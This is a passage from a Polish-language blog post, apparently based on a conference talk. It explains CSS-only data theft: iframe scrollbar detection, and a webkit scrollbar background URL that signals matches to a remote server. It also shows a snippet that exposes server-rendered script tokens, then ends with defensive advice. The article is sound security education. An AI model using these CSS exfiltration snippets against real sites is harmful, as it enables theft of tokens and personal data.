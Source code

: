 W efekcie wszystkie znaki na stronie przestają być widoczne (zupełnie nie ma na niej nic). Natomiast <strong>konkretna kombinacja znaków</strong> jest bardzo duża… Tak ogromna, że aż nie mieści się w oknie przeglądarki i powoduje, że <strong>pojawia się scrollbar</strong>… Oto trick :)

<ul>
    <li>załaduj stronę w iframe</li>
    <li>wstrzyknij CSS (dokładnie tak jak w poprzednim przykładzie)</li>
    <li>jeśli w iframie pojawi się scrollbar -&gt; trafiłaś/eś w kombinację znaków!</li>
</ul>

Ale co z tego, że pojawia się scrollbar, skąd będziesz o tym wiedział(a)? Otóż <strong>w przeglądarkach opartych o webkit scrollbarom można ustawić tło w postaci obrazka. </strong>Mamy trafienie, widoczny jest scrollbar, przeglądarka próbuje pobrać obrazek i otrzymujemy informację na naszym serwerze!

<pre class="language-css"><code>body::-webkit-scrollbar:horizontal {
  background: url(https://typeofweb.com/match);
}</code></pre>

Teraz wystarczy tylko to kilka razy powtórzyć :)

Jeszcze dokładniejszy opis przeprowadzenia tego ataku (wraz z kodem!) znajdziecie na stronie <a href="https://sekurak.pl/wykradanie-danych-w-swietnym-stylu-czyli-jak-wykorzystac-css-y-do-atakow-na-webaplikacje/#attachment_22102">sekurak.pl</a>. Na samym końcu wpisu jest też filmik prezentujący końcowy efekt.

<h2>Stosowanie ataków CSS do kodu JS</h2>

Często zdarza się, że w aplikacjach internetowych część kodu generowana jest po stronie serwera — czasem również kodu JS. Pracowałem nawet przy projekcie, gdzie po stronie serwera generowany był token dla użytkownika, a następnie był on renderowany do HTML w postaci prostego tagu <code>&lt;script&gt;</code>. <strong>Czy na taki kod JS również można zastosować powyższe ataki? Ależ tak!</strong>

Wystarczy, że dodasz do swojego CSS-a taki fragment kodu i wszystkie powyższe ataki staną się możliwe:

<pre class="language-css"><code>script {
  display: block;
}</code></pre>

Nie wierzysz?

https://youtu.be/rlWYb_b3qi0

<h2>Podsumowanie</h2>

Cały kod oraz moje slajdy znajdziecie w repozytorium: <a href="https://github.com/mmiszy/unleashconf-css-hacking-2017">https://github.com/mmiszy/unleashconf-css-hacking-2017</a>

Z tego wpisu warto zapamiętać kilka rzeczy:

<ul>
    <li><strong>wstrzykiwałem wyłącznie CSS</strong>. Nie musiałem szukać podatności XSS, SQLi, czy jakiejkolwiek innej, aby dobrać się do danych ofiary — wystarczył tylko CSS.</li>
    <li><strong>rzadko myślimy o zabezpieczaniu CSS-a</strong>. Praktycznie nigdy nie traktujemy go jako możliwego wektoru ataku — a jak się okazuje, to błąd!</li>
    <li><strong>sam CSS wystarczy, aby zrobić komuś krzywdę</strong> — kraść możemy przecież nie tylko tokeny, ale np. numer telefonu, PESEL, czy nazwisko panieńskie matki, albo podobne wrażliwe dane, które mogą się okazać przydatne przy przeprowadzaniu innych ataków</li>
    <li><strong>postaraj się pomyśleć nad tym jak ładujesz swój CSS</strong></li>
    <li><strong>nie pozwalaj na ładowanie aplikacji wewnątrz <code>iframe</code></strong> — wystarczy jeden nagłówek</li>
</ul>

A Ty co sądzisz o tego typu atakach? A może znasz jakieś inne nietypowe zagrożenia związane z CSS? Napisz o tym w komentarzu!
